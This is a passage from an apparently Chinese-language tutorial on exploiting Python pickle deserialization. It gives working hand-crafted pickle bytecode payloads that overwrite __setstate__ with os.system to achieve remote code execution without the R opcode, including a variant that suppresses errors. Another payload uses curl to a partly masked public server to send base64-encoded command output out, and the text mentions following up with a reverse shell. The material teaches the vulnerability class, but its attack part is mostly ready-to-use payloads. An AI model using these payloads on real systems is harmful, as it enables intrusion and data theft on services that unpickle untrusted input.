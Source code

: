 　　它有什么安全隐患呢？我们来想想看：Student原先是没有__setstate__这个方法的。那么我们利用{'__setstate__': os.system}来BUILE这个对象，那么现在对象的__setstate__就变成了os.system；接下来利用"ls /"来再次BUILD这个对象，则会执行setstate("ls /") ，而此时__setstate__已经被我们设置为os.system，因此实现了RCE.
```
payload = b'\x80\x03c__main__\nStudent\n)\x81}(V__setstate__\ncos\nsystem\nubVls /\nb.'　　
```
![](vx_images/193580123232881.png =500x)
结果
![](vx_images/463710123250924.png =500x)
成功RCE！接下来可以通过反弹shell来控制靶机了。

　　有一个可以改进的地方：这份payload由于没有返回一个Student，导致后面抛出异常。要让后面无异常也很简单：干完了恶意代码之后把栈弹到空，然后压一个正常Student进栈。payload构造如下：
```
payload = b'\x80\x03c__main__\nStudent\n)\x81}(V__setstate__\ncos\nsystem\nubVls /\nb0c__main__\nStudent\n)\x81}(X\x04\x00\x00\x00nameX\x03\x00\x00\x00ruaX\x05\x00\x00\x00gradeX\x03\x00\x00\x00wwwub.'
```
![](vx_images/301600223256679.png =500x)
![](vx_images/439980223257311.png =500x)
没有抛出异常。

　　至此，我们完成了不使用R指令、无副作用的RCE。Congratulations！

###  一些细节
　一、其他模块的load也可以触发pickle反序列化漏洞。例如：numpy.load()先尝试以numpy自己的数据格式导入；如果失败，则尝试以pickle的格式导入。因此numpy.load()也可以触发pickle反序列化漏洞。

　　二、即使代码中没有import os，GLOBAL指令也可以自动导入os.system。因此，不能认为“我不在代码里面导入os库，pickle反序列化的时候就不能执行os.system”。

　　三、即使没有回显，也可以很方便地调试恶意代码。只需要拥有一台公网服务器，执行os.system('curl your_server/`ls / | base64`)，然后查询您自己的服务器日志，就能看到结果。这是因为：以`引号包含的代码，在sh中会直接执行，返回其结果。

　　下面给出一个例子：
```
payload  = b'\x80\x03c__main__\nStudent\n)\x81}(V__setstate__\ncos\nsystem\nubVcurl 47.***.***.105/`ls / | base64`\nb.'
```
![](vx_images/237790323248047.png =500x)
![](vx_images/344830323240906.png =500x)
![](vx_images/497810323259715.png =500x)
pickle.loads()时，ls /的结果被base64编码后发送给服务器（红框）；我们的服务器查看日志，就可以得到命令执行结果。因此，在没有回显的时候，我们可以通过curl把执行结果送到我们的服务器上。
　　上文发出去的请求缺了一段，是因为url没有加引号。

## json模块反序列化漏洞
## marsha1模块反序列化漏洞
## xml模块反序列化漏洞
